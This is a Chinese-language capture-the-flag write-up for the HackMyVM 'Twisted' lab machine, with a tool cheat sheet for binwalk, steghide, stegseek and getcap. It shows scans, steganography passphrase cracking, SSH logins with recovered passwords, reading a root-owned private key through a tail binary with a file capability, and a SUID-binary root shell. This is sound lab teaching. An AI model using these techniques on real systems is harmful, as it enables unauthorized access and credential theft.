



# Twisted



| 靶机名称 | 作者 | 难易程度 | 平台     |
| -------- | ---- | -------- | -------- |
| Twisted  | sml  | 初级     | HackMyVM |

## 侦察

### 端口扫描

```shell
# 进行TCP端口扫描
warn@kali:~$ nmap -sC -sV 192.168.174.137                
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-03 14:55 CST
Nmap scan report for 192.168.174.137
Host is up (0.00072s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 67:63:a0:c9:8b:7a:f3:42:ac:49:ab:a6:a7:3f:fc:ee (RSA)
|   256 8c:ce:87:47:f8:b8:1a:1a:78:e5:b7:ce:74:d7:f5:db (ECDSA)
|_  256 92:94:66:0b:92:d3:cf:7e:ff:e8:bf:3c:7b:41:b7:5a (ED25519)
MAC Address: 00:0C:29:48:61:BC (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.74 seconds
                                                                               # 进行UDP端口扫描                                              
warn@kali:~$ nmap -sU --top-ports 100 192.168.174.137
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-03 14:55 CST
Nmap scan report for 192.168.174.137
Host is up (0.00066s latency).
All 100 scanned ports on 192.168.174.137 are in ignored states.
Not shown: 57 closed udp ports (port-unreach), 43 open|filtered udp ports (no-response)
MAC Address: 00:0C:29:48:61:BC (VMware)

Nmap done: 1 IP address (1 host up) scanned in 55.39 seconds
```

TCP 端口：

* 80 http nginx 1.14.2
* 22 ssh openssh 7.9p1
* OS : linux debian

UDP 端口：未发现任何有用的端口

## web应用分析

```
warn@kali:~$ curl -i -s http://192.168.174.137:80/                               
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Fri, 03 Apr 2026 07:04:17 GMT
Content-Type: text/html
Content-Length: 230
Last-Modified: Wed, 14 Oct 2020 06:57:20 GMT
Connection: keep-alive
ETag: "5f86a150-e6"
Accept-Ranges: bytes

<h1>I love cats!</h1> 
 
<br>

<h1>But I prefer this one because seems different</h1>

 
```

有两张猫咪的照片，提示词：`I love cats!; But I prefer this one because seems different; cat-hidden.jpg`，可能存在图片隐写。

## 图片分析与隐写术

```shell
warn@kali:/tmp/temporary$ wget http://192.168.174.137/cat-original.jpg && wget http://192.168.174.137/cat-hidden.jpg
--2026-04-03 15:18:53--  http://192.168.174.137/cat-original.jpg
Connecting to 192.168.174.137:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 288693 (282K) [image/jpeg]
Saving to: ‘cat-original.jpg’

cat-original.jpg                100%[====================================================>] 281.93K  --.-KB/s    in 0.003s  

2026-04-03 15:18:53 (87.6 MB/s) - ‘cat-original.jpg’ saved [288693/288693]

--2026-04-03 15:18:53--  http://192.168.174.137/cat-hidden.jpg
Connecting to 192.168.174.137:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 288706 (282K) [image/jpeg]
Saving to: ‘cat-hidden.jpg’

cat-hidden.jpg                  100%[====================================================>] 281.94K  --.-KB/s    in 0.002s  

2026-04-03 15:18:53 (138 MB/s) - ‘cat-hidden.jpg’ saved [288706/288706]

```

查看图片基本数据：

```shell
warn@kali:/tmp/temporary$ exiftool -a -u -g1 cat-hidden.jpg cat-original.jpg 
======== cat-hidden.jpg
---- ExifTool ----cat-original.jpg
ExifTool Version Number         : 13.25
---- System ----
File Name                       : cat-hidden.jpg
Directory                       : .
File Size                       : 289 kB
File Modification Date/Time     : 2020:10:14 14:51:44+08:00
File Access Date/Time           : 2026:04:03 15:40:53+08:00
File Inode Change Date/Time     : 2026:04:03 15:18:53+08:00
File Permissions                : -rw-rw-r--
---- File ----
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Image Width                     : 2400
Image Height                    : 1347
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
---- JFIF ----
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 300
Y Resolution                    : 300
---- Composite ----
Image Size                      : 2400x1347
Megapixels                      : 3.2
======== cat-original.jpg
---- ExifTool ----
ExifTool Version Number         : 13.25
---- System ----
File Name                       : cat-original.jpg
Directory                       : .
File Size                       : 289 kB
File Modification Date/Time     : 2020:10:14 14:51:44+08:00
File Access Date/Time           : 2026:04:03 15:42:33+08:00
File Inode Change Date/Time     : 2026:04:03 15:18:53+08:00
File Permissions                : -rw-rw-r--
---- File ----
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Image Width                     : 2400
Image Height                    : 1347
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
---- JFIF ----
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 300
Y Resolution                    : 300
---- Composite ----
Image Size                      : 2400x1347
Megapixels                      : 3.2
    2 image files read
```

binwalk 查看文件是否嵌入数据：

```
warn@kali:/tmp/temporary$ binwalk cat-hidden.jpg 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01

                                                                                                                             
warn@kali:/tmp/temporary$ binwalk cat-original.jpg 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
```

binwalk 对于这两个文件并没有发现任何嵌套文件（这不代表`jpeg`照片就没有隐写）。

```shell
warn@kali:/tmp/temporary$ steghide info cat-hidden.jpg 
"cat-hidden.jpg":
  format: jpeg    cat-original.jpg
  capacity: 16.2 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
steghide: could not extract any data with that passphrase!
warn@kali:/tmp/temporary$ stegseek cat-hidden.jpg /usr/share/wordlists/rockyou.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "sexymama"
[i] Original filename: "mateo.txt".
[i] Extracting to "cat-hidden.jpg.out".
# 隐藏了一个mateo.txt文件
warn@kali:/tmp/temporary$ cat cat-hidden.jpg.out 
thisismypassword

warn@kali:/tmp/temporary$ stegseek cat-original.jpg /usr/share/wordlists/rockyou.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek 
[i] Found passphrase: "westlife"
[i] Original filename: "markus.txt".
[i] Extracting to "cat-original.jpg.out".
# 隐藏了一个 markus.txt 文件
warn@kali:/tmp/temporary$ cat cat-original.jpg.out 
markuslovesbonita
```

通过steghide 和 stegseek 工具，我们提取出两个文件，markus.txt 和 mateo.txt 文件，cat 文件内容，猜测文件内容是密码，文件名是用户名。

## 初始访问

**登陆markus**

```shell
warn@kali:/tmp/temporary$ ssh markus@192.168.174.137 -p 2222                        
markus@192.168.174.137's password: 
Linux twisted 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr  2 00:26:40 2026 from 192.168.174.130
markus@twisted:~$ 
```

**登陆mateo**

```shell
warn@kali:~$ ssh mateo@192.168.174.137 -p 2222
mateo@192.168.174.137's password: 
Linux twisted 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Apr  1 22:38:30 2026 from 192.168.174.130
mateo@twisted:~$ 
```

## 内网信息收集

**markus**用户

```shell
markus@twisted:~$ ls -al
total 36
drwxr-xr-x 4 markus markus 4096 Apr  2 08:11 .
drwxr-xr-x 5 root   root   4096 Oct 14  2020 ..
-rw------- 1 markus markus  712 Apr  2 08:11 .bash_history
-rw-r--r-- 1 markus markus  220 Oct 14  2020 .bash_logout
-rw-r--r-- 1 markus markus 3526 Oct 14  2020 .bashrc
drwxr-xr-x 3 markus markus 4096 Oct 14  2020 .local
-rw------- 1 markus markus   85 Oct 14  2020 note.txt
-rw-r--r-- 1 markus markus  807 Oct 14  2020 .profile
drwx------ 2 markus markus 4096 Apr  2 00:28 .ssh
markus@twisted:~$ cat note.txt
Hi bonita,
I have saved your id_rsa here: /var/cache/apt/id_rsa
Nobody can find it. 
markus@twisted:~$ ls -al /var/cache/apt/id_rsa
-rw------- 1 root root 1823 Oct 14  2020 /var/cache/apt/id_rsa
```

**mateo**用户

```
mateo@twisted:~$ ls -al
total 36
drwxr-xr-x 3 mateo mateo 4096 Apr  1 23:05 .
drwxr-xr-x 5 root  root  4096 Oct 14  2020 ..
-rw------- 1 mateo mateo 1502 Apr  2 08:11 .bash_history
-rw-r--r-- 1 mateo mateo  220 Oct 13  2020 .bash_logout
-rw-r--r-- 1 mateo mateo 3526 Oct 13  2020 .bashrc
drwxr-xr-x 3 mateo mateo 4096 Oct 14  2020 .local
-rw------- 1 mateo mateo   25 Oct 14  2020 note.txt
-rw-r--r-- 1 mateo mateo  807 Oct 13  2020 .profile
-rw------- 1 mateo mateo   53 Oct 14  2020 .Xauthority
mateo@twisted:~$ cat  note.txt
/var/www/html/gogogo.wav
```

markus的note.txt的提示是：

```
Hi bonita,
I have saved your id_rsa here: /var/cache/apt/id_rsa
Nobody can find it. 
```

`/var/cache/apt/id_rsa`：`root`权限用户，当前用户无法读取。

mateo 的note.txt的提示是：

```
/var/www/html/gogogo.wav
```

## 分析音频文件

```
warn@kali:/tmp/temporary$ wget http://192.168.174.137/gogogo.wav                
--2026-04-03 16:20:53--  http://192.168.174.137/gogogo.wav
Connecting to 192.168.174.137:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1130160 (1.1M) [application/octet-stream]
Saving to: ‘gogogo.wav’

gogogo.wav                      100%[====================================================>]   1.08M  --.-KB/s    in 0.01s   

2026-04-03 16:20:53 (112 MB/s) - ‘gogogo.wav’ saved [1130160/1130160]
```

打开音频文件，发现声音是有规律的，将它放给AI，AI说他是摩斯密码。



go deeper 继续深入，come with me 跟我来，little rabbit 小兔子。(这些提示感觉没啥用，更像是调侃了)

## 纵向移动

### linux权限枚举

```shell
# mateo
mateo@twisted:~$ sudo -l
-bash: sudo: command not found
# markus
markus@twisted:~$ sudo -l
-bash: sudo: command not found
markus@twisted:~$ find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null
-rwsrws--- 1 root bonita 16864 Oct 14  2020 /home/bonita/beroot
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
```

发现beroot二进制文件，但是我们没有权限利用它。

```shell
markus@twisted:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/tail = cap_dac_read_search+ep
```

发现tail 拥有 cap_dac_read_search+ep ；它可以绕过部分文件读取/目录搜索权限。

### 权限利用



```
markus@twisted:~$ /usr/bin/tail -c+0 /var/cache/apt/id_rsa > /tmp/key_rsa
markus@twisted:~$ ls -al /tmp/key_rsa
-rw-r--r-- 1 markus markus 1823 Apr  3 05:01 /tmp/key_rsa
markus@twisted:~$ chmod 600 /tmp/key_rsa
```

### ssh 密钥登陆

```
markus@twisted:~$ ssh bonita@localhost -p 2222 -i /tmp/key_rsa
Linux twisted 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr  2 00:43:52 2026 from ::1
bonita@twisted:~$ 
```

## 权限提升

### SUID 程序分析

通过`scp`将文件下载到本地，用cutter分析。

```c#
/* jsdec pseudo code output */
/* C:\Users\32566\Desktop\beroot @ 0x1185 */
#include <stdint.h>
 
int32_t main (int32_t argc, char ** argv) {
    char ** var_28h;
    int32_t var_1ch;
    int64_t var_ch;
    rdi = argc;
    rsi = argv;
    var_1ch = edi;
    var_28h = rsi;
    eax = 0;
    printf ("Enter the code:");
    rax = &var_ch;
    rsi = rax;
    rdi = data_00002016;
    eax = 0;
    scanf ();
    eax = var_ch;
    if (eax == 0x16f8) { // 当eax为0x16f8时
        edi = 0;
        eax = 0;
        setuid ();
        edi = 0;
        eax = 0;
        setgid ();
        rdi = "/bin/bash"; 
        eax = 0;
        system (); // /bin/bash 权限提升
    } else {
        puts ("\nWRONG");
    }
    eax = 0;
    return rax;
}
```

### 获取flag

```shell
bonita@twisted:~$ cat user.txt
HMVblackcat
bonita@twisted:~$ ./beroot
Enter the code:
 0x16f8
root@twisted:~# cat /root/root.txt
HMVwhereismycat       
```

## 总结

这个是一个综合靶场，虽说每一步不是特别难，但是我学到了好多工具。

回顾一下靶场的攻击流程：通过端口扫描发现80端口和2222端口，访问80端口发现两张照片，分析图片，发现其是隐写，两张图片里面藏了2个用户的用户名和密码，通过ssh连接，发现两个提示，一个是诱饵，另一个是真正的提示，ssh私钥无法被读取，我们需要提权，绕过文件读取权限，拿到ssh私钥后，进入bondit目录，分析suid二进制文件，发现输入0x16f8，我们就可以得到root权限，最后获得flag。

(现在的总结不是很专业，这个是我学习外国人的模板写的，参考了它的文章，感觉它写的文章挺好的，网址：[setyanoegraha](https://github.com/setyanoegraha/hackmyvm-writeups/blob/main/machines/Twisted/twisted.md))

```shell
nmap 发现只有两个端口： 2222 80
curl 80 发现两个照片，hidden 猜测有图片隐写 
steghide info cat-hidden.jpg 发现需要密码
stegseek cat-hidden.jpg /usr/share/wordlists/rockyou.txt
密码是：sexymama
steghide 提取隐藏文件 文件名为mateo.txt
内容为：thisismypassword
ssh mateo@192.168.174.137 -p 2222
输入密码，成功连接上了
cat note.txt
/var/www/html/gogogo.wav
摩斯密码音频
GO DEEPER... COME WITH ME... LITTLE RABBIT... 这是解码后的内容
我不知道如何深入，我体会不到它给我这个提示有啥用。
ls /home 发现存在3个用户
find / -name user.txt 2>/dev/null 其存储在 bonita 里面
markus 里面也有一个note.txt
bonita 里面有beroot 这个应该是用于提权的
现在的首要目标就是拿到markus的权限
我并没有发下suid sudo关于markus的提权命令，所以猜测是通过密码登陆。
# 这是我当时的思考过程，我当时以为只有一个图片是隐写另一个图片没有隐写，只能登陆进去一个，我还以为另一个用户要我从内网获得了，当我做不出来，看了别人的wp后，才知道自己在思路上有些欠缺。
```

## 本靶场学习到的工具

### binwalk

一个**固件/二进制镜像分析工具**。

我们的主要用途：

- CTF 里的隐写/套娃文件
- 恶意样本里的嵌入 payload
- 安装包、自解压文件、未知 .bin 内容识别
- 查二进制里是否藏了压缩包、图片、脚本、证书

**常用命令：**

```shell
# 基础扫描
binwalk sample.bin
# 显示更多细节
binwalk -v sample.bin
# 只显示匹配结果的一部分再人工判断
binwalk sample.bin | more
# 自动提取已识别内容
binwalk -e sample.bin
# 递归提取多层嵌套内容
binwalk -Me sample.bin
# 指定提取目录
# 通常先进入目标目录再执行，避免到处生成文件
cd output_dir
binwalk -e ../sample.bin
# 熵分析（不同版本支持情况可能不同，先看 --help）
binwalk -E sample.bin
# 查看帮助
binwalk --help
```

### steghide

steghide是一个**隐写术（steganography）命令行工具**，用来把一个文件“藏”进图片或音频里。

- 把秘密文件嵌入到普通载体文件中
- 常见载体格式：
  - JPEG
  - BMP
  - WAV
  - AU
- 被藏进去的内容可以是任意文件类型，比如：
  - 文本
  - 压缩包
  - 可执行文件
  - 脚本

常用的命令：

```shell
steghide embed -cf cover.jpg -ef secret.txt
# 嵌入文件
steghide extract -sf cover.jpg
# 提取文件
steghide info cover.jpg
# 查看文件信息
# -cf = cover file，载体文件
# -ef = embed file，要藏进去的文件
# -sf = stego file，嵌入后的文件
# -p = passphrase 指定密码
```

**它的局限**

- 不是所有图片格式都支持
- 如果文件被再次强压缩、转码、改格式，隐藏数据可能损坏
- 对有经验的分析者，不代表一定“绝对检测不到”
- 更适合学习、CTF、实验用途

### stegseek

stegseek 是一个**专门针对 steghide 隐写文件的高速口令破解工具**。

- 用来尝试破解 steghide 隐写文件的密码
- 破解成功后，可以把隐藏的数据提取出来
- 典型场景：
  - CTF 隐写题
  - 已获授权的取证/测试
  - 检查某个文件是不是 steghide 做的

常见用法：

```shell
# 用字典破解
stegseek file.jpg wordlist.txt
# 检测/尝试无密码恢复
stegseek --seed file.jpg
# 指定线程数
stegseek file.jpg wordlist.txt -t 8
# 破解成功后继续找更多隐藏内容
stegseek file.jpg wordlist.txt -c
# 覆盖已存在输出文件
stegseek file.jpg wordlist.txt -f
# 显示帮助
stegseek --help
```

### getcap

getcap 是 Linux 里的一个命令，用来**查看文件（通常是可执行文件）设置了哪些 capabilities（能力位）**。

- 作用：检查文件的 security.capability 扩展属性
- 目的：让程序拿到**精细化权限**，而不是直接 setuid root

```shell
# 查看单个文件
getcap /usr/bin/ping

# 递归查看目录
getcap -r /usr/bin

# 显示所有搜索到的项，即使没有 capability
getcap -v /usr/bin/ping

# 显示与 user namespace 相关的 root uid 信息
getcap -n /usr/bin/ping

# 帮助
getcap -h
```

输出：

```shell
/usr/bin/ping cap_net_raw=ep
```

- /usr/bin/ping：文件路径
- cap_net_raw：能力名
- =ep：这个能力被设置到了对应集合里

**最常见的“值”其实有两类**

1. **能力名**
2. **后缀标志**（如 =ep、=eip）

**1）后缀标志是什么意思**

- e = Effective
- i = Inheritable
- p = Permitted

常见写法：

- =ep：最常见
- =eip：三个集合都有
- =p：只在 permitted
- =：空 capability；这**不等于**“没有设置 capability”

**2）常见能力名有哪些**
下面这些最常见：

- cap_net_bind_service
  - 允许绑定低端口（如 80、443）
- cap_net_raw
  - 允许原始套接字，ping 常见
- cap_net_admin
  - 网络管理相关能力，权限较大
- cap_setuid
  - 允许修改 UID
- cap_setgid
  - 允许修改 GID
- cap_dac_override
  - 绕过文件读写权限检查
- cap_dac_read_search
  - 绕过读/搜索权限检查
- cap_chown
  - 修改文件所有者
- cap_fowner
  - 绕过部分文件所有权限制
- cap_fsetid
  - 保留/设置 setuid/setgid 位
- cap_kill
  - 绕过发信号的一些权限检查
- cap_sys_ptrace
  - ptrace/调试其他进程
- cap_sys_nice
  - 调整优先级、调度策略
- cap_sys_resource
  - 提升资源限制
- cap_sys_time
  - 修改系统时间
- cap_sys_module
  - 加载/卸载内核模块
- cap_sys_admin
  - 很大的“万能”能力之一，范围非常广
- cap_audit_write
  - 写审计日志
- cap_audit_control
  - 管理审计子系统
- cap_mknod
  - 创建设备文件

**补充**

- getcap 看的是**文件 capability**
- 如果你想看**进程 capability**，通常用：

```shell
getpcaps <PID>
```